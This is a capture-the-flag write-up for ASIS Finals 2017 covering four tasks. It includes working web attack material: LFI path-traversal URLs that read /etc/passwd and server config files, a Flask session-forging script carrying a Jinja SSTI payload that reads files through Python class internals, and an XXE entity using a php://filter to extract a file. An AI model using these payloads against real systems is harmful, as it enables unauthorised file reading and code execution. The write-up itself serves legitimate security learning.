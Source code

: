 
# ASIS-FINALS-2017
-Task name : Golem is stupid <br>
-Category : Web <br>
 
-Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

-tldr ; SSTI to get RCE in flask session token <br>

-Challenge : <br>
-first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
-Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
#creatig payload
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)
---------------------------------------------------------------------------------------------------------------------

#exploiting 
import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text
```

-<br>
-Response contained flag : <b>ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}</b>

-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br>

-Task name :  GSA File Server  <br>
-Category : Web <br>

-Description :  GSA's file server, go find the hole, drill it and grab the flag :)
-Note that Scope is 128.199.40.185:* <br>
<br>

-tldr ; Exploit XXE and Use a directory listing vuln to read flag<br>

-Challenge : <br>
-First find :http://128.199.40.185/showFiles was vuln to directory listing<br>
-Second find : http://128.199.40.185:8081/panelManager-0.1/ XXE injection in docx file <br>
-the solution was to download their doc file called (demo) open with archive and change inner xml (word/document.xml) with an xxe  php filter was working <br>
-```<!DOCTYPE roottag [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../../../fileSharing/s3cRetP4th/flagIsHeregRabiT.flag"> ]>```<br>
-<br> the directory of the flag was found using the first vuln <br>
-Flag : <b>ASIS{Vuln_web_appZ_plus_misc0nfig_eQ_dis4st3R!}</b>
-<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br><br>
-Task name :   Chaoyang District   <br>
-Category : PPC <br>
-Description :  This is an AI programming challenge, so binary is not required to be provided. <br>
-tldr ; play one game to generate sequence of winning moves, repeat same sequences 50 times ;) <br>
-Challenge : <br>
-Challenge was Reversi game vs an AI, the problem was that the same game was repeated, and the AI did same moves, so we need to win just one game, store the moves that we used and repeat for all games <br>

```
#might wanna use pwntools instead of sockets, it bugged sometime
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('178.62.22.245',32145))
seq=['e3','c5','b5','g3','b3','a5','b7','a7','d7','e6','a4','a8','e1','b1','g8','c8','g5','h2','g1','h6','g7','h7','d8','c1','e8','a2','h3','h5'
i=0
j=0
while True:
	print s.recv(1024)
	print s.recv(1024)
	print 'Game nubmer : ' , j+1
	if i==len(seq):
		j+=1
		i=0
	s.send(seq[i]+'\n')
	if j==49:
		print s.recv(1024)
	i+=1
```

<br>
Flag : <b>ASIS{Th3_Bra1n_Wash1nG_HAHA_AI_IS_INTERESTING}</b>
<br><br>
-<b>------------------------------------------------------------------------------------------------------------------------------------------------------------------</b>
-<br><br>
-Task name :   Vivid Spying   <br>
-Category : Networking <br>
-Description :      We have captured the spy traffic by our agents, hurry up and find the flag. : <br>
-Challenge : <br> 
-The challenge provided a DNS capture, after analyzing it for a bit we can extract some prefix in a domain name asisctf.com<br>
10.111110100001001111101011001010011100100010001011111010000101100.010111010010110111011101111101011100110011101101001011010011110.000011101100101011111010110111101100101010010010110010101000001.asisctf.com <br>
Cleaning that prefix from dots and reading it right to right didn't give printable string <br>
after adding a zero it becomes : 010000010101001101001001010100110111101101011111010100110111000001111001011010010110111001100111010111110111011101101001011101000110100001011111010001000100111001010011010111110010000101111101 <br>
-bin to ascii => <b>ASIS{_Spying_with_DNS_!} </b>
